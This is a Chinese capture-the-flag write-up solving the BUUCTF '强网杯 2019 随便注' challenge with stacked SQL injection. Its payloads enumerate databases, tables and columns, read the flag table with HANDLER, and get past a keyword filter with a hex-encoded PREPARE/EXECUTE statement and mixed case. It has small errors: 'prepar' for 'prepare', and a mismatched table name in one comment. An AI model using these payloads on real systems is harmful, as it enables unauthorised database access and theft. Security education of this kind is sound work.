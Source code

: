 
## BUUCTF

### [强网杯 2019]随便注（堆叠注入）

确定类型为字符型注入，单引号闭合

```
?inject=1' order by 2%23	//数显为2位
```

进行联合查询

```
?inject=1' union select 1,2		//返回正则匹配，发现过滤的许多关键字
```

直接进行注入

```
?inject=1';show databases%23	//注入成功，进行查表
```

爆表

```
?inject=1';show tables%23		//发现有两张表，分别进行查询
```

查字段

```
?inject=1';show columns from `1919810931114514`--+	//纯数字的表需要用反引号进行标注才能查询到，并且flag就在这张表中
```



因此，现在需要解决如何查询到这张表，因为默认查询的是“words”这张表

#### 方法一：特殊的查看方式

用**handler**方法，查询表中内容，[handler介绍](https://www.cnblogs.com/zengkefu/p/5684642.html)

```
?inject=1'; handler `1919810931114514` open;handler`1919810931114514` read first;
//打开这个表（纯数字的表需要用反引号选择中），读取第一段
```

#### 方法二：预处理，存储绕过

[mysql中Prepare、execute、deallocate的使用方法](https://blog.csdn.net/weixin_37839711/article/details/81562550)

```
?inject=1';SeT@a=0x73656c656374202a2066726f6d206031393139383139333131313435313460;prepar antlers_sql from @a;execute antlers_sql;%23

//定义一个变量@a，16进制（内容为：select * from `191981931114514`），分配给这个SQL语句一个名字（这里为antlers_sql）并且传入@a的内容（也即我们的payload），execute（执行）这条命令！
//SeT大小写绕过
```
